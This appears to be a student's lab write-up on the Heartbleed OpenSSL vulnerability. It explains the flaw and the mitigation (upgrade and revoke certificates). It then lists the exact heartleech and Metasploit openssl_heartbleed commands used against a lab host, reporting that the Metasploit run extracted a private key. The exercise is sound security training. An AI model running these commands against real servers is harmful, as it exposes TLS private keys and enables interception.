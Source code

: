 # 3 Heartbleed



Heartbleed is a vulnerability in the OpenSSL library which is used for the SSL/TLS protocol. It allows to read the private key. 
https://heartbleed.com/

https://github.com/robertdavidgraham/heartleech


### answers

- Explain the security problem
    - due to a software error the private key of the certificate can be retrieved. Root cause seems to be memory corruption 
- Explain your attack (exploit, screenshot, hacking journal)
    - see below
- Explain mitigation (remedy)
    - upgrade the a version of the openSSL library that doesnt have this issue
    - Furthermore, replace certificates and revoke old ones as their private key might not be private anymore



### Heartleech

- `sudo apt-get install hl-heartleech` -> install tool "heartleech"
- `/opt/applic/heartleech/heartleech --scan heartbleed.vm.vuln.land --autopwn --threads 20`  (cd "/opt/applic/heartleech" and then executing the command doesnt work.. i guess the previously installed heartleech, which doesnt work would then be executed )

From my understanding, heartleech uses the heartbleed bug to get access to data in memory which could contain the private key. Within these bytes it a) looks for known patterns that indicate the private key (depends on the format) and b) performs calculations using the public key and the accessed data to find the private key. (see github)


Tried multiple (many) times.. result was always INCONCLUSIVE :-(


### Metasploit
1. start metasploit resource (exercise 2) and log in
2. Execute the commands
    - `msfconsole` > start metasploit
    - `use auxiliary/scanner/ssl/openssl_heartbleed` 
    - `set action KEYS`
    - `set RHOST heartbleed.vm.vuln.land` 
    - `set MAX_KEYTRIES 255` (as explained.. above 250 makes no sense)
    - `exploit`

Success: attack succeded. Private key starts with "MIICW"  (see screenshot)

### Screenshot

Shows both attacks: Heartleech (not successful) and Metasploit (successful)

![HeartbleedAttack](3_HeartbleedExploit.png)

